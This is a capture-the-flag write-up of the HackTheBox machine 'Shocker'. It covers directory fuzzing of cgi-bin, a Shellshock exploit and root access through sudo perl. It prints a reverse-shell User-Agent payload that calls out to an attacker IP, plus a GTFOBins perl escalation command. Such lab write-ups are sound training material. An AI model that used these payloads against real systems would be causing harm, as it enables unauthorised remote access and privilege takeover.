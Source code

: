 ```yaml
---
title: "Shocker"
date: 2023-06-24T23:12:03+02:00
tags: ["privesc","web","linux"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Shocker.png
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Linux machine with Shellshock bash remote code execution vulnerability."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Shocker
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Shocker

![Untitled](/HTB/shocker-icon.png)

## Tools Used

- Nmap
- Gobuster
- Burpsuite

## Port Scanning

We can find two service up and running one web server in the port 80 and a ssh in port 2222

![Untitled](/HTB/shocker-1.png)

## Enumeration

If we visit the page we find a basic page with a basic html with only a picture.

![Untitled](/HTB/shocker-2.png)

![Untitled](/HTB/shocker-3.png)

When I tried to fuzz the directories of the website, I found that gobuster doesn’t found anything and after several tests i realized that the website only recognize directories adding “/” at the end of the URL.

![Untitled](/HTB/shocker-4.png)

![Untitled](/HTB/shocker-5.png)

Thanks to the error message of the website, it is observed that when no slash is added, a "not found" page is returned. In this example, the "cgi-bin" directory is tested. "cgi-bin" is specifically tested because the name of the machine gives a clue that it is likely vulnerable to the Shellshock Bash remote code execution vulnerability, which affects web servers utilizing CGI (Common Gateway Interface).

![Untitled](/HTB/shocker-6.png)

A quick fuzzing with the flag "-f" in Gobuster is performed, forcing the slash at the end of the URL. Three directories are discovered. Now, the "/cgi-bin/" directory is fuzzed to search for any interesting file such as .php, .py, .html, .js, or .sh. In this case, the "-f" flag is not used because files are being searched for.

![Untitled](/HTB/shocker-7.png)

We find a file named [user.sh](http://user.sh), lets open it

![Untitled](/HTB/shocker-8.png)

Upon opening it, it is revealed that the file is actually [test.sh](http://test.sh) file

Now let’s focus on the Shellshock vulnerability, the basis of this vuln is to edit the http request to modify the User-Agent to “() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/1234 0>&1” we can do that with burp and allows us with a listening port to have a reverse shell. 

I got all the information about Shellshock here: https://ethicalhackingguru.com/how-to-exploit-the-shellshock-vulnerability/

![Untitled](/HTB/shocker-9.png)

![Untitled](/HTB/shocker-10.png)

## Gaining an Initial Foothold

Once in the home of the pwned user shelly we can see a user.txt which has the flag

![Untitled](/HTB/shocker-11.png)

![Untitled](/HTB/shocker-12.png)

## Privilege Escalation

Now we are in let’s elevate privilege

![Untitled](/HTB/shocker-13.png)

We can see with the sudo -l that we can use perl with root privilegies without any password, let’s take this advantage to pawn the system.

If we check in [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/perl/#sudo) we can use `sudo perl -e 'exec "/bin/sh";'` to escalate privilege.

![Untitled](/HTB/shocker-14.png)

![Untitled](/HTB/shocker-15.png)

## Lessons Learned

- What did you learn from the room?
    
    Now we have learned how to exploit the Shellshock vulnerability to gain remote code execution and how to use sudo permissions to escalate privileges.
    
- Were there any new tools or techniques used?
    
    The use of the flag -f in gobuster for directory fuzzing.

**Thank you for reading, and happy hacking! 😄**
